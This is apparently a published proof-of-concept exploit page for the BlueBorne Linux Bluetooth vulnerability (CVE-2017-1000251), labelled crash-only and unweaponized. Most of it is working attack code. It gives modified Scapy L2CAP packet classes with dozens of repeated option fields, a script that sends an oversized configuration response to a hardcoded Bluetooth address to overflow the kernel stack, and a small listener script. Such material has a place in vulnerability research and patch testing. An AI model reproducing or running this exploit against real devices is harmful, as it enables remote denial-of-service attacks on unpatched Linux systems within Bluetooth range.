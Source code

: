 # Bleuborn-POC-overflow
# Exploit Title: BlueBorne - Proof of Concept - Unarmed/Unweaponized -
DoS (Crash) only
# Date: 09/21/2017
# Exploit Author: Marcin Kozlowski <marcinguy@gmail.com>
# Version: Kernel version v3.3-rc1, and thus affects all version from there on
# Tested on: Linux 4.4.0-93-generic #116
# CVE : CVE-2017-1000251
 
# Provided for legal security research and testing purposes ONLY.
 
 
 
Proof of Concept - Crash Only - Unarmed/Unweaponized/No Payload
 
After reading tons of Documentation and Protocol specifications.
 
 
1) Install Scapy
 
https://github.com/secdev/scapy
 
 
Add/Replace these requests and responses in Bluetooth Protocol stack to these:
 
 
scapy/layers/bluetooth.py
 
class L2CAP_ConfReq(Packet):
    name = "L2CAP Conf Req"
    fields_desc = [ LEShortField("dcid",0),
                    LEShortField("flags",0),
                    ByteField("type",0),
                    ByteField("length",0),
                    ByteField("identifier",0),
                    ByteField("servicetype",0),
                    LEShortField("sdusize",0),
                    LEIntField("sduarrtime",0),
                    LEIntField("accesslat",0),
                    LEIntField("flushtime",0),
                    ]
 
 
 
class L2CAP_ConfResp(Packet):
    name = "L2CAP Conf Resp"
    fields_desc = [ LEShortField("scid",0),
                    LEShortField("flags",0),
                    LEShortField("result",0),
                    ByteField("type0",0),
                    ByteField("length0",0),
                    LEShortField("option0",0),
                    ByteField("type1",0),
                    ByteField("length1",0),
                    LEShortField("option1",0),
                    ByteField("type2",0),
                    ByteField("length2",0),
                    LEShortField("option2",0),
                    ByteField("type3",0),
                    ByteField("length3",0),
                    LEShortField("option3",0),
                    ByteField("type4",0),
                    ByteField("length4",0),
                    LEShortField("option4",0),
                    ByteField("type5",0),
                    ByteField("length5",0),
                    LEShortField("option5",0),
                    ByteField("type6",0),
                    ByteField("length6",0),
                    LEShortField("option6",0),
                    ByteField("type7",0),
                    ByteField("length7",0),
                    LEShortField("option7",0),
                    ByteField("type8",0),
                    ByteField("length8",0),
                    LEShortField("option8",0),
                    ByteField("type9",0),
                    ByteField("length9",0),
                    LEShortField("option9",0),
                    ByteField("type10",0),
                    ByteField("length10",0),
                    LEShortField("option10",0),
                    ByteField("type11",0),
                    ByteField("length11",0),
                    LEShortField("option11",0),
                    ByteField("type12",0),
                    ByteField("length12",0),
                    LEShortField("option12",0),
                    ByteField("type13",0),
                    ByteField("length13",0),
                    LEShortField("option13",0),
                    ByteField("type14",0),
                    ByteField("length14",0),
                    LEShortField("option14",0),
                    ByteField("type15",0),
                    ByteField("length15",0),
                    LEShortField("option15",0),
                    ByteField("type16",0),
                    ByteField("length16",0),
                    LEShortField("option16",0),
                    ByteField("type17",0),
                    ByteField("length17",0),
                    LEShortField("option17",0),
                    ByteField("type18",0),
                    ByteField("length18",0),
                    LEShortField("option18",0),
                    ByteField("type19",0),
                    ByteField("length19",0),
                    LEShortField("option19",0),
                    ByteField("type20",0),
                    ByteField("length20",0),
                    LEShortField("option20",0),
                    ByteField("type21",0),
                    ByteField("length21",0),
                    LEShortField("option21",0),
                    ByteField("type22",0),
                    ByteField("length22",0),
                    LEShortField("option22",0),
                    ByteField("type23",0),
                    ByteField("length23",0),
                    LEShortField("option23",0),
                    ByteField("type24",0),
                    ByteField("length24",0),
                    LEShortField("option24",0),
                    ByteField("type25",0),
                    ByteField("length25",0),
                    LEShortField("option25",0),
                    ByteField("type26",0),
                    ByteField("length26",0),
                    LEShortField("option26",0),
                    ByteField("type27",0),
                    ByteField("length27",0),
                    LEShortField("option27",0),
                    ByteField("type28",0),
                    ByteField("length28",0),
                    LEShortField("option28",0),
                    ByteField("type29",0),
                    ByteField("length29",0),
                    LEShortField("option29",0),
                    ByteField("type30",0),
                    ByteField("length30",0),
                    LEShortField("option30",0),
                    ByteField("type31",0),
                    ByteField("length31",0),
                    LEShortField("option31",0),
                    ByteField("type32",0),
                    ByteField("length32",0),
                    LEShortField("option32",0),
                    ByteField("type33",0),
                    ByteField("length33",0),
                    LEShortField("option33",0),
                    ByteField("type34",0),
                    ByteField("length34",0),
                    LEShortField("option34",0),
                    ByteField("type35",0),
                    ByteField("length35",0),
                    LEShortField("option35",0),
                    ByteField("type36",0),
                    ByteField("length36",0),
                    LEShortField("option36",0),
                    ByteField("type37",0),
                    ByteField("length37",0),
                    LEShortField("option37",0),
                    ByteField("type38",0),
                    ByteField("length38",0),
                    LEShortField("option38",0),
                    ByteField("type39",0),
                    ByteField("length39",0),
                    LEShortField("option39",0),
                    ByteField("type40",0),
                    ByteField("length40",0),
                    LEShortField("option40",0),
                    ByteField("type41",0),
                    ByteField("length41",0),
                    LEShortField("option41",0),
                    ByteField("type42",0),
                    ByteField("length42",0),
                    LEShortField("option42",0),
                    ByteField("type43",0),
                    ByteField("length43",0),
                    LEShortField("option43",0),
                    ByteField("type44",0),
                    ByteField("length44",0),
                    LEShortField("option44",0),
                    ByteField("type45",0),
                    ByteField("length45",0),
                    LEShortField("option45",0),
                    ByteField("type46",0),
                    ByteField("length46",0),
                    LEShortField("option46",0),
                    ByteField("type47",0),
                    ByteField("length47",0),
                    LEShortField("option47",0),
                    ByteField("type48",0),
                    ByteField("length48",0),
                    LEShortField("option48",0),
                    ByteField("type49",0),
                    ByteField("length49",0),
                    LEShortField("option49",0),
                    ByteField("type50",0),
                    ByteField("length50",0),
                    LEShortField("option50",0),
                    ByteField("type51",0),
                    ByteField("length51",0),
                    LEShortField("option51",0),
                    ByteField("type52",0),
                    ByteField("length52",0),
                    LEShortField("option52",0),
                    ByteField("type53",0),
                    ByteField("length53",0),
                    LEShortField("option53",0),
                    ByteField("type54",0),
                    ByteField("length54",0),
                    LEShortField("option54",0),
                    ByteField("type55",0),
                    ByteField("length55",0),
                    LEShortField("option55",0),
                    ByteField("type56",0),
                    ByteField("length56",0),
                    LEShortField("option56",0),
                    ByteField("type57",0),
                    ByteField("length57",0),
                    LEShortField("option57",0),
                    ByteField("type58",0),
                    ByteField("length58",0),
                    LEShortField("option58",0),
                    ByteField("type59",0),
                    ByteField("length59",0),
                    LEShortField("option59",0),
                    ByteField("type60",0),
                    ByteField("length60",0),
                    LEShortField("option60",0),
                    ByteField("type61",0),
                    ByteField("length61",0),
                    LEShortField("option61",0),
                    ByteField("type62",0),
                    ByteField("length62",0),
                    LEShortField("option62",0),
                    ByteField("type63",0),
                    ByteField("length63",0),
                    LEShortField("option63",0),
                    ByteField("type64",0),
                    ByteField("length64",0),
                    LEShortField("option64",0),
                    ByteField("type65",0),
                    ByteField("length65",0),
                    LEShortField("option65",0),
                    ByteField("type66",0),
                    ByteField("length66",0),
                    LEShortField("option66",0),
                    ByteField("type67",0),
                    ByteField("length67",0),
                    LEShortField("option67",0),
                    ByteField("type68",0),
                    ByteField("length68",0),
                    LEShortField("option68",0),
                    ByteField("type69",0),
                    ByteField("length69",0),
                    LEShortField("option69",0),
                    ]
 
 
2) Exploit
 
 
bluebornexploit.py
------------------------
 
from scapy.all import *
 
pkt = L2CAP_CmdHdr(code=4)/
L2CAP_ConfReq(type=0x06,length=16,identifier=1,servicetype=0x0,sdusize=0xffff,sduarrtime=0xffffffff,accesslat=0xffffffff,flushtime=0xffffffff)
 
 
pkt1 = L2CAP_CmdHdr(code=5)/
L2CAP_ConfResp(result=0x04,type0=1,length0=2,option0=2000,type1=1,length1=2,option1=2000,type2=1,length2=2,option2=2000,type3=1,length3=2,option3=2000,type4=1,length4=2,option4=2000,type5=1,length5=2,option5=2000,type6=1,length6=2,option6=2000,type7=1,length7=2,option7=2000,type8=1,length8=2,option8=2000,type9=1,length9=2,option9=2000,type10=1,length10=2,option10=2000,type11=1,length11=2,option11=2000,type12=1,length12=2,option12=2000,type13=1,length13=2,option13=2000,type14=1,length14=2,option14=2000,type15=1,length15=2,option15=2000,type16=1,length16=2,option16=2000,type17=1,length17=2,option17=2000,type18=1,length18=2,option18=2000,type19=1,length19=2,option19=2000,type20=1,length20=2,option20=2000,type21=1,length21=2,option21=2000,type22=1,length22=2,option22=2000,type23=1,length23=2,option23=2000,type24=1,length24=2,option24=2000,type25=1,length25=2,option25=2000,type26=1,length26=2,option26=2000,type27=1,length27=2,option27=2000,type28=1,length28=2,option28=2000,type29=1,length29=2,option29=2000,type30=1,length30=2,option30=2000,type31=1,length31=2,option31=2000,type32=1,length32=2,option32=2000,type33=1,length33=2,option33=2000,type34=1,length34=2,option34=2000,type35=1,length35=2,option35=2000,type36=1,length36=2,option36=2000,type37=1,length37=2,option37=2000,type38=1,length38=2,option38=2000,type39=1,length39=2,option39=2000,type40=1,length40=2,option40=2000,type41=1,length41=2,option41=2000,type42=1,length42=2,option42=2000,type43=1,length43=2,option43=2000,type44=1,length44=2,option44=2000,type45=1,length45=2,option45=2000,type46=1,length46=2,option46=2000,type47=1,length47=2,option47=2000,type48=1,length48=2,option48=2000,type49=1,length49=2,option49=2000,type50=1,length50=2,option50=2000,type51=1,length51=2,option51=2000,type52=1,length52=2,option52=2000,type53=1,length53=2,option53=2000,type54=1,length54=2,option54=2000,type55=1,length55=2,option55=2000,type56=1,length56=2,option56=2000,type57=1,length57=2,option57=2000,type58=1,length58=2,option58=2000,type59=1,length59=2,option59=2000,type60=1,length60=2,option60=2000,type61=1,length61=2,option61=2000,type62=1,length62=2,option62=2000,type63=1,length63=2,option63=2000,type64=1,length64=2,option64=2000,type65=1,length65=2,option65=2000,type66=1,length66=2,option66=2000,type67=1,length67=2,option67=2000,type68=1,length68=2,option68=2000,type69=1,length69=2,option69=2000)
 
 
bt = BluetoothL2CAPSocket("00:1A:7D:DA:71:13")
 
bt.send(pkt)
bt.send(pkt1)
 
 
bluetoothsrv.py
--------------------
 
from scapy.all import *
 
bt = BluetoothL2CAPSocket("01:02:03:04:05:06")
 
bt.recv()
 
 
 
 
DEMO:
https://imgur.com/a/zcvLb
